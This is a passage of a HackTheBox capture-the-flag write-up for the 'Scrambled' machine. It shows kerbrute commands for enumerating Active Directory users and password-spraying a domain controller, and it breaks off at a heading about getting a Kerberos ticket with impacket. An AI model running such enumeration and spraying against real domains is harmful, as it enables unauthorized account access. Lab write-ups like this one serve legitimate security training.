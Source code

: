### username = password
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/password%20reset%20hint%201.png)

## kerbrute userenum
```
./kerbrute userenum -d scrm.local --dc DC1.scrm.local users.txt

```

### result --> ksimpson valid user
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/kerbrute%20userenum.png)

## kerbrute passwordspray
````
./kerbrute passwordspray -d scrm.local --dc DC1.scrm.local users.txt ksimpson

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/password%20reset%20hint.png)

## impacket get TGT